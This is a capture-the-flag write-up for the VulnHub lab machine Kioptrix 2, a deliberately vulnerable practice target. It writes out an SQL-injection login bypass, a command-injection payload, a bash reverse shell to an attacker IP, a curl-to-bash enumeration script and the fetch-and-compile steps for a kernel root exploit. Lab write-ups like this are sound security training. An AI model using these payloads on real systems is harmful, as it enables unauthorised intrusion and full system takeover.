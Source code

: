 ```yaml
---
title: "Kioptrix 2"
date: 2024-05-05
draft: false
summary: "Writeup for Kioptrix level 2 of the Kioptrix series challenge on VulnHub."
tags: ["kioptrix", "linux", "command injection", "kernel exploit"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/kioptrix2/cover.png"
  caption: "Kioptrix 2 VulnHub Challenge"
  alt: "Kioptrix 2 cover"
platform: "VulnHub"
---
```


*Kioptrix-2* is the second challenge in the *Kioptrix* series. The object of the game is to acquire root access via any means possible.
<!--more-->
You can download *kioptrix-2* by clicking on the link given below:
- https://www.vulnhub.com/entry/kioptrix-level-11-2,23/

## Recon

I performed a network scan using **nmap** to find the target IP address.

```shell
nmap -sn 192.168.1.0/24
```

After finding the target IP, I launched an **nmap** aggressive scan to find open ports, services running on the ports and additional information about those services.

```shell
nmap -A -p- TARGET --min-rate 10000 -oN nmap.out
```

| **Port** | **Service** |
| -------- | ----------- |
| 22       | ssh         |
| 80       | http        |
| 111      | rpc         |
| 443      | https       |
| 631      | ipp         |
| 658      | cups        |
| 3306     | mysql       |

![](https://cdn.ziomsec.com/kioptrix2/1.png)
![](https://cdn.ziomsec.com/kioptrix2/2.png)
![](https://cdn.ziomsec.com/kioptrix2/3.png)

> The _unauthorized_ label next to the SQL server indicated that remote login was disabled and hence the server could only be accessed locally.

## Initial Foothold

Since port 80 was open, I visited the web application on my browser and found a login page.

![](https://cdn.ziomsec.com/kioptrix2/4.png)

After trying a few default credentials, I tried performing an SQL injection using some simple payloads. When I entered the below payload in the *username* field, I was able to bypass the entire authentication mechanism.

```
admin' or 1=1#
```

![](https://cdn.ziomsec.com/kioptrix2/5.png)

After logging in, I got access to a page that allowed me **ping** a machine. I entered the IP of my router and got the ping results in another page.

![](https://cdn.ziomsec.com/kioptrix2/6.png)

![](https://cdn.ziomsec.com/kioptrix2/7.png)

The application displayed raw output of the **ping** command. This made me wonder if it was actually executing a system command on the provided input. If it were doing so, I could add another system command and try making it execute that as well.

```
8.8.8.8; ls
```
> `;` is used to execute multiple commands in a single line on linux systems. There are many other ways of executing multiple together.

![](https://cdn.ziomsec.com/kioptrix2/8.png)

The command that I injected got executed and I was able to view the contents present in the directory being used by the application. Hence I used a **bash** reverse shell payload from **revshells** to get a reverse shell from the target on my listener.
 - https://www.revshells.com/

![](https://cdn.ziomsec.com/kioptrix2/9.png)

I then started a netcat listener on my PC using **nc**.

```bash
rlwrap nc -lnvp 443
```

Finally I executed the payload and got reverse shell

```shell
8.8.8.8; bash -i >& /dev/tcp/KALI_IP/PORT 0>&1
```

![](https://cdn.ziomsec.com/kioptrix2/10.png)

I got a shell as a service user.

## Privilege Escalation

### Enumeration

While exploring, I discovered two users, _john_ and _harold_. However, I couldn't access their directories.

![](https://cdn.ziomsec.com/kioptrix2/11.png)

To ease up enumeration, I downloaded the **linux Smart Enumeration** script on the target system and ran it.

```shell
# after downloading lse.sh on local system, start an http server
python3 -m http.server 8080

# run it on the target by piping the output of curl to bash
curl http://KALI:8080/lse.sh | /bin/bash
```

![](https://cdn.ziomsec.com/kioptrix2/12.png)

![](https://cdn.ziomsec.com/kioptrix2/13.png)

I found the following SUID binaries, but unfortunately, they didn't seem exploitable.

![](https://cdn.ziomsec.com/kioptrix2/14.png)

I double-checked my kernel version:

```shell
uname -a
```

![](https://cdn.ziomsec.com/kioptrix2/15.png)

The **lse** script also revealed that the target was running **CentOS**, so I searched for exploits related to it on **Exploit DB**.

```shell
searchsploit 'Centos 2.6.9'
```

![](https://cdn.ziomsec.com/kioptrix2/16.png)

### Exploiting Kernel

I downloaded the exploit and transferred it to the target system.

```shell
# on local system
searchsploit -m 'linux_x86/local/9542.c'
python3 -m http.server 8080

# on target system
wget http://KALI:8080/9542.c
```


![](https://cdn.ziomsec.com/kioptrix2/17.png)

![](https://cdn.ziomsec.com/kioptrix2/18.png)

After downloading it, I compiled it using **gcc** and ran it to get a shell as **root**.

```shell
gcc 9542.c
./a.out
```

![](https://cdn.ziomsec.com/kioptrix2/19.png)

## Closure

Here's how I pwned Kioptrix-2:
- First, I spotted port 80 running on the target.
- Visiting it revealed a login panel.
- I bypassed the authentication mechanism with SQL injection and landed on a page that allowed to perform ping.
- I then exploited a command injection vulnerability and got a reverse shell.
- Finally, a kernel exploit got me root access.

That's it from my side :) Happy Hacking!

---
